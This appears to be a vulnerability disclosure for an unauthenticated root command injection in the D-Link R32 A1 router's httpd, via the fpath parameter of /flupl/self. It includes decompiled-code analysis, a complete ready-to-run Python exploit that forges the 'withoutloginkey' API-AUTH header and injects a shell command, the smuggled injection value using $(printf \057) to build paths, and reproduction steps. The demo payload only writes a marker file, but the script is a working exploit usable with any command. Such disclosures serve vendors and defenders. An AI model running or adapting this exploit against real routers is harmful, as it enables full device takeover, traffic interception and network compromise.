







# D-Link R32 A1 firmware 1.10B02: Unauthenticated command injection in `/flupl/self` via `fpath` leading to root RCE

## TARGET

- Vendor: D-Link
- Device: D-Link R32 A1 Wireless Router
- Firmware version: 1.10B02
- Firmware file: `R32A1_FW110B02.bin`
- Firmware SHA-256: `324bf9ad9a5066eed6244bb8b97a45f4ac99835d1f11606208ed6f9092ba7790`

## BUG TYPE

OS Command Injection

## Affected Environment

- Architecture: AArch64 / ARM64, little-endian
- OS: Embedded Linux; firmware kernel module directory `4.4.124`
- Web service: `usr/bin/httpd`, listening on HTTP/HTTPS and running as root
- Vulnerable endpoint: `GET /flupl/self`
- Vulnerable parameter: `fpath`
- `httpd` Build ID: `8e820bb1f57fad0389a49846795227590a5f6017`

## Abstract

The D-Link R32 A1 router running firmware 1.10B02 contains an unauthenticated command injection vulnerability in the `/flupl/self` handler of `usr/bin/httpd`. The vulnerability occurs while processing the attacker-controlled `fpath` query parameter. The handler inserts this value into filesystem paths and then passes the resulting strings to shell-based `cp` commands without quoting or filtering shell metacharacters.

An attacker who can reach the router's web service can inject a semicolon followed by an arbitrary command. The injected command is executed by `system()` with root privileges. Exploitation requires no login, no session cookie, and no Basic Authentication credentials. Only firmware 1.10B02 on hardware revision A1 was tested.

### Vulnerability Point

When the request path is `/flupl/self`, `sub_41BAF0` compares the module name with `self` and dispatches the request to `sub_41B470`.



**This branch contains no session-validation check. Dynamic testing confirmed that it is reachable without a cookie or Basic Authentication.**

Inside `sub_41B470`, the query parameters are searched by name. When `fpath` is found, its value pointer is copied directly into `v5` without an allowlist or escaping.





**The parameters `rd` and `query_type` must also be present, and `query_type=edit` is required to enter the vulnerable write-file branch.**

The same `fpath` value is then concatenated with fixed prefixes using three `sprintf` operations. The resulting paths are `/tmp/jffs2/self_ui/<fpath>`, `/tmp/www3/<fpath>`, and `/tmp/jffs2/ori_ui/ori_<fpath>`. These operations do not remove `;`, `$()`, `>`, or other shell metacharacters.



Before the command-execution sink, `fopen(source_path, "w")` must succeed. For this reason, the PoC does not place literal `/` characters inside `fpath`; it uses `$(printf \\057)` to generate path separators only when the shell evaluates the injected command.

If the backup file does not exist, `sub_419560` inserts the original `fpath` into `cp %s%s %s` and calls `_exec_cmd` at `0x4196d4`.



The main path also passes the tainted source and destination buffers to `_exec_cmd("cp %s %s", ...)` at `0x41b948`.



Finally, `libutils.so::_exec_cmd` formats the command into a 1024-byte buffer and calls `system()` through `pox_system`. The length check does not sanitize the command. Consequently, the semicolon in `fpath` terminates the original `cp` command, and the text after it is executed as a new root shell command.

### PoC

The following complete PoC uses only the Python standard library. It does not import any local module or require any accompanying script. It calculates the public protocol header, sends the request without a cookie or login, and then verifies the marker file automatically.

```python
#!/usr/bin/env python3
import hashlib
import hmac
import sys
import time
import urllib.error
import urllib.parse
import urllib.request

BASE = (sys.argv[1] if len(sys.argv) > 1 else "http://127.0.0.1:10080").rstrip("/")
MARKER = "R32_FLUPL_UNAUTH"


class NoRedirect(urllib.request.HTTPRedirectHandler):
    def redirect_request(self, req, fp, code, msg, headers, newurl):
        return None


def send(request):
    opener = urllib.request.build_opener(NoRedirect())
    try:
        with opener.open(request, timeout=15) as response:
            return response.status, response.read().decode(errors="replace")
    except urllib.error.HTTPError as exc:
        body = exc.read().decode(errors="replace")
        exc.close()
        return exc.code, body


def digest(key, message):
    return hmac.new(key.encode(), message.encode(), hashlib.sha256).hexdigest().upper()


def main():
    action = "self"
    timestamp = str(int(time.time() * 1000) % 2000000000000)
    slash = "$(printf " + chr(92) * 2 + "057)"
    query = urllib.parse.urlencode({
        "rd": "/",
        "query_type": "edit",
        "fpath": f"x;echo {MARKER} >{slash}tmp{slash}www3{slash}y",
        "fcontent": "x",
    })
    headers = {
        "API-ACTION": action,
        "API-AUTH": digest("withoutloginkey", timestamp + action) + " " + timestamp,
        "Connection": "close",
    }
    request = urllib.request.Request(
        BASE + "/flupl/self?" + query, headers=headers, method="GET"
    )
    status, body = send(request)
    print(f"[*] Exploit response: HTTP {status}\n{body}")
    if status != 200:
        raise SystemExit("[-] Exploit request failed")

    status, body = send(urllib.request.Request(BASE + "/y"))
    print(f"[*] Marker response: HTTP {status}\n{body}")
    if status == 200 and body.strip() == MARKER:
        print("[+] Unauthenticated root command execution confirmed")
    else:
        raise SystemExit("[-] Marker was not created")


if __name__ == "__main__":
    main()
```

The URL-decoded injection value is:

```text
fpath=x;echo R32_FLUPL_UNAUTH >$(printf \\057)tmp$(printf \\057)www3$(printf \\057)y
```

After shell evaluation, the injected portion is equivalent to `echo R32_FLUPL_UNAUTH >/tmp/www3/y`. The `$(printf \\057)` construction delays creation of `/` until shell execution so that the initial `fopen()` receives a path whose parent exists. It is not an authentication bypass.

### Impact

An unauthenticated remote attacker with network access to the web service can execute arbitrary commands as **root**. This permits complete compromise of the router, including reading or modifying configuration, changing firewall and DNS settings, installing persistent unauthorized modifications, intercepting network traffic, and disrupting device availability.

### Reproduction

**Prerequisites**

1. Use D-Link R32 A1 firmware 1.10B02 with the original `usr/bin/httpd` described above.
2. Make the web management service reachable. In the validated QEMU setup, `127.0.0.1:10080` is forwarded to guest port `80`.
3. Install Python 3. No third-party package, administrator credential, session cookie, or prior login is required.

**Reproduction Steps**

1. Copy only the complete Python code block above into `poc.py`, then run it against the test device:

   ```bash
   python3 poc.py http://127.0.0.1:10080
   ```

2. The script sends the exploit request and reads `/y` automatically. Successful reproduction ends with:

   ```text
   [+] Unauthenticated root command execution confirmed
   ```

**After sending the payload**



The marker file exists at `/tmp/www3/y`, is owned by `root:root`, and is 17 bytes long. The same result was reproduced with the original binary and without logging hooks.
